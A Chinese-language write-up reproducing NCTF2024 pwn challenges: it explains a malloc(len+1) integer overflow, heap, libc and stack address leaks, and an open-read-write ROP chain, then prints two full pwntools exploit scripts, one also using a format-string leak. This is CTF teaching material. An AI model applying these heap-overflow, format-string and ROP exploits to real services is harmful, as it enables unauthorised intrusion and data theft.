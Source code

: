 # NCTF2024【复现】

注：由于本人实在太菜，因此没有做出任何题目，仅对所有赛题进行复现

## diary

是基于fork的server，因此不能采用system(/bin/sh);

**为什么交互式 Shell 会失败？**

- **文件描述符继承是关键：** 当孙子进程通过 `exec` 启动 `/bin/sh` 时，它**继承了创建它的进程（即原服务器子进程）的文件描述符**。
- **标准输入/输出/错误指向哪里？** 在典型的 `fork` 服务器子进程中，文件描述符 0 (标准输入 stdin), 1 (标准输出 stdout), 和 2 (标准错误 stderr) 通常都指向**子进程**用来与客户端通信的那个网络连接套接字 `conn_fd`。因为子进程是从父进程那里继承了这个 `conn_fd`，并且通常会用它来进行读写。
- 失败的原因：
  1. **`/bin/sh` 的感知：** 当 `/bin/sh` 启动时，它检查其标准输入输出。发现它们连接到一个套接字而不是一个终端(TTY/PTY)时，它可能不会进入完全的交互模式。
  2. **标准 I/O 缓冲：** 这是最常见的问题。当 `/bin/sh` (在孙子进程中) 向标准输出 (FD 1，指向 `conn_fd`) 写入数据时（比如命令提示符或命令执行结果），数据并不会立即通过网络发送。因为标准输出连接到套接字时，通常使用**全缓冲 (Full Buffering)**。数据会被暂存在内存缓冲区里，直到缓冲区满了，或者 `/bin/sh` 进程显式地刷新缓冲区（`fflush`）或退出时，数据才会被真正写入 `conn_fd` 发送出去。这就导致了交互的延迟或完全不响应。标准输入也可能存在类似问题。
  3. **子进程可能提前关闭 FD：** 在某些服务器逻辑下，子进程可能在处理完合法请求（或者发生错误）后、但在 `system()` 被非预期地调用之前，就已经关闭了 `conn_fd`。这样，即使孙子进程启动了 `/bin/sh`，它的输入输出也无处可去。
  4. **`system()` 本身的机制：** 如前所述，`system()` 通过 `sh -c` 执行命令，这主要是为了执行单个命令并获取结果，而不是为了启动一个持久的交互式会话。

***另外地\***，在orw途中，由于标准输入0、标准输出1、标准错误2都被绑定在socket上面，因此如果直接打印到fd=0、1、2我们无法看见，最终做法是write(4,flag,len);，为什么呢？

程序fork时，父进程中已使用的 FD 有 0, 1, 2 (标准流) 和 3 (`listen_fd`)。因此，`accept()` 返回的**新的连接套接字 `conn_fd`** 得到的编号是 **4**，而子程序关闭listen_fd，因此编号为3的fd就空出来了作为之后open(flag)的fd，而write写向fd=4即socket我们就可以得到flag

![img](../images/nctf1.png)

漏洞点在于malloc(len+1)

![img](../images/nctf2.png)

如果Len为0xffffffff的话malloc会malloc(0)，**而我们使用对应的Len进行堆溢出**

***堆地址：\***通过溢出一个0从而打印出堆地址。

***libc地址：\***通过申请一个0x2000000的堆块塞满bss和libc的地址，打印leak出libc

通过environ泄露栈地址，**environ是一个与栈有固定偏移的地址，可以绕过ASLR**

把chunk分配到栈，最后orw读取文件

```
┌──(kali㉿kali)-[~/Desktop/nctf]
└─$ cat exp       
from pwn import *
k = process('./pwn')
io = remote("127.0.0.1",9999)
libc = ELF('libc.so.6')
context(os='linux',arch='amd64')
def add(len,con):
    io.send(b'1')
    io.sendafter(b'Input length:\n',str(len).encode())
    io.sendlineafter(b'Input content:\n',con)
def dele(idx):
    io.send(b'2')
    io.sendafter(b'Input index:\n',str(idx).encode())
def edit(idx,con):
    io.send(b'3')
    io.sendafter(b'Input index:\n',str(idx).encode())
    io.sendlineafter(b'Input content:\n',con)
def show(idx):
    io.send(b'4')
    io.sendafter(b'Input index:\n',str(idx).encode())

add(0x80,b'a')
add(0xffffffff,b'\x00')
add(0x80,b'a')
add(0x80,b'a')
edit(1,b'a'*0x20)
show(2)
log.info("[*]overflow the \x00 to cover the pointer and then leak the address")
io.recvuntil(p64(0x21))
heap_base = u64(io.recv(8)) - 0x370
log.info("[*]heap addr : "+hex(heap_base))
dele(1)
add(0x2000000,b'a')
show(2)
io.recvuntil(p64(0x21))
libc_base = u64(io.recv(8)) - 0x7f6e3c800010 + 0x7f6e3ea00000
log.info("[*]libc addr : "+hex(libc_base))
environ = libc_base + 0x7f6e3ec0ad58 - 0x7f6e3ea00000
log.info("[*]envi addr : "+hex(environ))
dele(1)
add(0xffffffff,b'\x00')
edit(1,b'\x00'*0x18 + p64(0x21) + p64(environ) + p64(0x81))
show(2)
io.recvuntil(b'Content:\n')
stack_addr = u64(io.recv(8)) + 8 + 0x7ffd95677750 - 0x7ffd956779a8
log.info(hex(stack_addr)) 
#this stack addr is Menu function's ret addr
pop_rdi_ret = libc_base + 0x10f75b
pop_rsi_ret = libc_base + 0x10f759
#pop_rsi_pop_r12_ret
magic = libc_base + 0xb0133
#mov rdx,rbx; pop rbx; pop r12; pop rbp; retn
pop_rbx_ret = libc_base + 0x586e4
open = libc_base + libc.symbols['open']
write = libc_base + libc.symbols['write']
read = libc_base + libc.symbols['read']
edit(0,b'flag\x00\x00')
flag = heap_base + 0x2c0
ROP = p64(pop_rdi_ret) + p64(flag) + p64(pop_rsi_ret) + p64(0) + p64(0) + p64(open)
#OPEN_FUNC
ROP += p64(pop_rdi_ret) + p64(0x3) + p64(pop_rsi_ret) + p64(heap_base+0x50) + p64(0) + p64(pop_rbx_ret) + p64(0x30) + p64(magic) + p64(0x30) + p64(0) + p64(stack_addr+0x100) + p64(read)
ROP += p64(pop_rdi_ret) + p64(0x4) + p64(write)
print(hex(pop_rsi_ret))
edit(1,b'\x00'*0x18 + p64(0x21) + p64(stack_addr) + p64(0x101))
edit(2,ROP)
io.send(b'5')
io.interactive()
```
## unauthwarden-whoami



```
from pwn import *
env={'LD_LIBRARY_PATH': '/opt/intel/sgxsdk/lib64:$LD_LIBRARY_PATH'}
io = process('./test_app',env=env)
context(os = 'linux',arch = 'amd64',log_level='debug')
def register(usr,pwd):
    io.sendafter(b'>> ',b'2')
    io.sendafter(b'Enter username: ',usr)
    io.sendafter(b'Enter password: ',pwd)
def login(usr,pwd):
    io.sendafter(b'>> ',b'1')
    io.sendafter(b'Enter username: ',usr)
    io.sendafter(b'Enter password: ',pwd)
def add(usr,pwd):
    io.sendafter(b'>> ',b'1')
    io.sendafter(b'Enter username: ',usr)
    io.sendafter(b'Enter password: ',pwd)
def show(idx):
    io.recvuntil(b'>> ')
    io.send(b'2')
    io.sendafter(b'Enter record index (1-5): ',str(idx).encode())
def logout():
    io.recvuntil(b'>> ')
    io.send(b'6')
def send_seal(data):
    io.recvuntil(b'>> ')
    io.send(b'4')
    if io.recv(6) == b'Sealed':
        io.sendlineafter(b'to reject.\n', b'y')
    io.sendlineafter(b'to seal: ', str(len(data)).encode())
    for i in range(0, len(data), 0x100):
        io.sendafter(b'batch):', data[i: i + 0x100])
    io.sendlineafter(b'(y/n): ', 'y'.encode())
def show_seal():
    io.recvuntil(b'>> ')
    io.send(b'5')

register(b'%3$p',b'123')
login(b'%3$p',b'123')
io.recvuntil(b'back, ')
addr = int(io.recvuntil(b'\n',drop=True).decode(),16) - 0x2719f4
log.info(hex(addr))
#gdb.attach(io)
pop_rdi_ret = addr + 0x3e34
root_pwd = addr + 0x11c020
printf = addr + 0x10B3
ret = addr + 0x1052
gdb.attach(io)
send_seal(b'?' * 256 + b'!' * 0x8 + p64(pop_rdi_ret) + p64(root_pwd) + p64(ret) + p64(printf)+b'')

io.interactive() 
```

![img](../images/nctf4.png)
